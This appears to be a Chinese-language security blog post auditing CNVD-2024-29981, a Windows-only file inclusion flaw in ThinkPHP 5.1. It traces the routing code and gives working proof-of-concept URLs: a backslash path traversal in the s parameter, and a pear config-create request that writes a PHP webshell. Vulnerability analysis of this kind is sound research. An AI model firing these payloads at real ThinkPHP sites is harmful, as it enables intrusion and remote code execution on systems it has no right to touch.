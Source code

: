 ```yaml
---
layout: post
title: "Thinkphp5.1文件包含-CNVD-2024-29981"
author: "xinyisleep"
---
```

```info
time:   4.24
测试版本:   thinkphp 5.1.41
php:    7.3.4<br>
影响范围:   thinkphp5.1.0--thinkphp5.1.* （windows）: linux无法利用
漏洞利用poc:    index.php?s=..\..\你要包含的路径/index/index
pear进行命令执行poc:  /index.php?s=..\..\..\Extensions\php\php7.3.4nts\pear\&+config-create+/<?=phpinfo();?>+1.php
```
调用堆栈：
![image](https://cdn.nlark.com/yuque/0/2024/png/35317071/1714168498133-d6fd7176-92ef-4a79-801a-9bf9ebfa18c1.png)
<h1 id="tvbAq">一.Thinkphp文件包含:</h1>
**<font style="color:#000000;">在Thinkphp5中路由可以使用一下两种方式都可以访问到执行的方法中如： </font>**

```color5
[http://127.0.0.1/index.php/index/index/hello](http://127.0.0.1/index.php/index/index/hellohttp://127.0.0.1/index.php?s=index/index/hello//)
[http://127.0.0.1/index.php?s=index/index/hello](http://127.0.0.1/index.php/index/index/hellohttp://127.0.0.1/index.php?s=index/index/hello//)
//简单一点来说其实就是对应的 模块/控制器/方法
```
![image](https://cdn.nlark.com/yuque/0/2024/png/35317071/1723994715127-eefda7aa-8d47-4eb2-b9d3-fe4e7b4847ae.png)
<h2 id="QbPXO">1.1: Thinkphp5.1.*审计过程</h2>
首先需要触发路由
http://127.0.0.1/index.php?s=index/index/hello
![image](https://cdn.nlark.com/yuque/0/2024/png/35317071/1723995478440-c7fd9c75-7834-451d-aa81-a3bcbaa99ac7.png)  
进入run方法，
![image](https://cdn.nlark.com/yuque/0/2024/png/35317071/1723998373872-13fe0a19-ea71-48af-8bff-20fd6d8d64c3.png)  
**走到405行routeCheck方法，根据注释也可以看出来是进行路由检测接着往下看，**
![image](https://cdn.nlark.com/yuque/0/2024/png/35317071/1723998590159-deac7b9b-3e5c-4206-aa2a-5640b333aea8.png)  
600行path方法，
![image](https://cdn.nlark.com/yuque/0/2024/png/35317071/1723996015405-6d303e45-3591-48c3-97a7-e185235cf94d.png)
上面执行到了pathinfo,名字可以看出来就是路径信息的意思，下面是具体代码。
```php
public function pathinfo()
{
    if (is_null($this->pathinfo)) {
        if (isset($_GET[$this->config['var_pathinfo']])) {
            // 判断URL里面是否有兼容模式参数
            $pathinfo = $_GET[$this->config['var_pathinfo']];
            unset($_GET[$this->config['var_pathinfo']]);
            unset($this->get[$this->config['var_pathinfo']]);
        } elseif ($this->isCli()) {
            // CLI模式下 index.php module/controller/action/params/...
            $pathinfo = isset($_SERVER['argv'][1]) ? $_SERVER['argv'][1] : '';
        } elseif ('cli-server' == PHP_SAPI) {
            $pathinfo = strpos($this->server('REQUEST_URI'), '?') ? strstr($this->server('REQUEST_URI'), '?', true) : $this->server('REQUEST_URI');
        } elseif ($this->server('PATH_INFO')) {
            $pathinfo = $this->server('PATH_INFO');
        }

        // 分析PATHINFO信息
        if (!isset($pathinfo)) {
            foreach ($this->config['pathinfo_fetch'] as $type) {
                if ($this->server($type)) {
                    $pathinfo = (0 === strpos($this->server($type), $this->server('SCRIPT_NAME'))) ?
                    substr($this->server($type), strlen($this->server('SCRIPT_NAME'))) : $this->server($type);
                    break;
                }
            }
        }

        if (!empty($pathinfo)) {
            unset($this->get[$pathinfo], $this->request[$pathinfo]);
        }

        $this->pathinfo = empty($pathinfo) || '/' == $pathinfo ? '' : ltrim($pathinfo, '/');
    }

    return $this->pathinfo;
}


```
```info
关键点看下面的代码
if (isset($_GET[$this->config['var_pathinfo']])) {

                $pathinfo = $_GET[$this->config['var_pathinfo']];

                unset($_GET[$this->config['var_pathinfo']]);

                unset($this->get[$this->config['var_pathinfo']]);

  其中$this->config['var_pathinfo']是s参数也就是说获取了s的参数，并且销毁了GET传入的

s,和当前类的$this->get[s]的内容返回值是$pathinfo就是我们s传的内容。

  好了再回到path，会走到if里面其中也就是匹配我们传的参数有没有.html,意义不大。

$this->path = preg_replace('/\.(' . ltrim($suffix, '.') . ')$/i', '', $pathinfo);
```
上面就是获取url参数，**routeCheck并没有结束**
```info
606行 $dispatch = $this->route->check($path, $must); 
这个没什么太多必要进去看，写的又臭又烂，关键点就是执行think\route\dispatch\url类
在就是把/替换成|。
下面是执行过程截图。
```
![image](https://cdn.nlark.com/yuque/0/2024/png/35317071/1723998207885-c9160d57-9b45-4411-b3e5-1aa30407fca3.png)

![image](https://cdn.nlark.com/yuque/0/2024/png/35317071/1723998245299-af01a603-fa78-42a0-ab33-9cb038d6b38c.png)

![image](https://cdn.nlark.com/yuque/0/2024/png/35317071/1723998468018-32332b08-1923-4ec2-be8d-ee3f31605bf6.png)
然后就直接return了，在看看init方法做了什么。
![image](https://cdn.nlark.com/yuque/0/2024/png/35317071/1723997287211-3e77a580-3125-4b71-8666-d8de961677db.png)
**parseUrl方法是把路由进行分割成数组**，
![image](https://cdn.nlark.com/yuque/0/2024/png/35317071/1723999765175-f1a4ff3a-826d-4936-b977-75d9613b5a33.png)
```php
public function parseUrlPath($url)
{
    // 分隔符替换 确保路由定义使用统一的分隔符
    $url = str_replace('|', '/', $url);
    $url = trim($url, '/');
    $var = [];

    if (false !== strpos($url, '?')) {
        // [模块/控制器/操作?]参数1=值1&参数2=值2...
        $info = parse_url($url);
        $path = explode('/', $info['path']);
        parse_str($info['query'], $var);
    } elseif (strpos($url, '/')) {
        // [模块/控制器/操作]
        $path = explode('/', $url);
    } elseif (false !== strpos($url, '=')) {
        // 参数1=值1&参数2=值2...
        $path = [];
        parse_str($url, $var);
    } else {
        $path = [$url];
    }

    return [$path, $var];
```

```danger
关键代码，也就是之前|在变回去了。  
$url = str_replace('|', '/', $url);
下面就是分割成一个数组，这里是重点。
elseif (strpos($url, '/')) {
            // 模块
            $path = explode('/', $url);

```
最后给到$path并且在54行$module在获取数组第一个，后面就直接return了。
![image](https://cdn.nlark.com/yuque/0/2024/png/35317071/1723999927569-69a90ee3-e2bd-4367-8829-2eab5e6775e0.png)
最后我们返回去看25行可以看到返回的时候new了一个类，并且执行了Module类的init方法跟进去。
![image](https://cdn.nlark.com/yuque/0/2024/png/35317071/1724000360984-022697dc-5efe-44f2-a2cc-2dd06a628479.png)  
**至此到现在$this->dispatch都是我们能控制的，但是可以看到再次把/进行分割成数组了，所以/算是pass了，然后我们往下看，$result[0]也就是数组第一个给到$module。**
```php
if ($this->rule->getConfig('app_multi_module')) {
  // 多模块部署
  $module    = strip_tags(strtolower($result[0] ?: $this->rule->getConfig('default_module')));
  $bind      = $this->rule->getRouter()->getBind();
  $available = false;

  if ($bind && preg_match('/^[a-z]/is', $bind)) {
    // 绑定模块
    list($bindModule) = explode('/', $bind);
    if (empty($result[0])) {
      $module = $bindModule;
    }
    $available = true;
  } elseif (!in_array($module, $this->rule->getConfig('deny_module_list')) && is_dir($this->app->getAppPath() . $module)) {
    $available = true;
```
```danger
关键点也是重点，is_dir再熟悉不过了$this->app->getAppPath() 具体输出一下就可以路径了看到了
D://绝对路径/application/，主要看$module上面提到了这个是我们可控制的呀，但是限制了/。
} elseif (!in_array($module, $this->rule->getConfig('deny_module_list')) && is_dir($this->app->getAppPath() . $module)) {
    $available = true;
```
**$available变量为false,先让他为true，看到50行的时候是可以让$available变量为true,但是存在一个if，第一个条件是不为数组这个可以直接过了，因为在38行的时候他已经不是数组了，第2个条件是获取目录再加上$module变量其中$module变量是可以控制的，也就是说判断是否是一个真实存在的路径$this->app->getAppPath() 路径地址是 D://绝对路径/application/$module,那么大致思路就清晰了，默认情况下application存在 index extra，上面说到/已经用不了了因为他进行了2次分割成了数组，但是可以通过..\跳目录，这样..\就在一个value中不会进行分割，这也是为什么linux系统无法利用的原因，可以看下图上面也有分析到。**
![image](https://cdn.nlark.com/yuque/0/2024/png/35317071/1714168694156-3769858f-848c-4138-8bab-9fa847589c62.png)  
例如  ..\..\aa/bb/cc 分割成数组，但是..\并没有进行分割，在执行到parseUrl方法54行array_shift($path) 获取第一个数组也就是..\..\aa,60行的时候获取到了bb，所以这块就绕过了，然后我们思路再次回到 Module类，49行使用..\就可以走到true, 后面的57行if就可以就下去在走到60行的app类里面的init方法。
![image](https://cdn.nlark.com/yuque/0/2024/png/35317071/1724001531059-db0a5f82-039c-4846-af6b-31ef50837f70.png)
![image](https://cdn.nlark.com/yuque/0/2024/png/35317071/1714168716813-87212a0d-31ec-4c43-95d2-b50dacd15683.png)  
可以看到323行遍历循环了一个参数$files，$files是从$module过来的，$module是我们的..\..\aa,321行获取了目录下面所有文件放到数组里面进行循环，在获取文件扩展名进行强比较,$this->configExt是php,所以在根目录下面创建目录，目录里面创建一个文件1.php 内容 /index.php?s=..\..\..\..\..\..\..\admin/user/name  其中admin是目录，user和name随便写,然后再去看load方法
![image](https://cdn.nlark.com/yuque/0/2024/png/35317071/1714168740965-61e021e5-3eb5-4369-a269-832a31e28e89.png)  
也就是看文件是否存在，再去loadFile方法，
![image](https://cdn.nlark.com/yuque/0/2024/png/35317071/1714168767080-c7cf4097-c132-4355-8159-74d24e354cf5.png)  
<font style="color:#DF2A3F;">查看扩展名是否是php，然后直接包含,为什么linux不能利用是因为linux不支持..\</font>
****
<h2 id="GVWoV">1.2: 漏洞利用</h2>
**<font style="color:#000000;">Version: thinkphp5.1.35</font>**
![image](https://cdn.nlark.com/yuque/0/2024/png/35317071/1718640209013-776b02da-a38e-4038-8222-bc3994396048.png)
```java
thinkphp目录 D:\phpStudy\WWW\thinkphp5\public，在D盘根目录创建一个文件夹，下面存放1.php，
内容phpinfo();
POC: index.php?s=..\..\..\..\thinkphp5.1/xinyi/xinyi
```
![image](https://cdn.nlark.com/yuque/0/2024/png/35317071/1718640501024-7baab04c-2f7c-434d-92dd-b8215011443d.png)
![image](https://cdn.nlark.com/yuque/0/2024/png/35317071/1718640616406-89b49f8b-1ac2-46ec-ada6-17925fb07118.png)
****
<h2 id="KN9vm">1.3: 命令执行(pear写shell)</h2>
```java
POC:
/index.php?s=..\..\..\Extensions\php\php7.3.4nts\pear\&+config-create+/<?=phpinfo();?>+1.php
```
![image](https://cdn.nlark.com/yuque/0/2024/png/35317071/1718640889745-ba75f54b-d109-4bf7-b334-1870545e8d17.png)

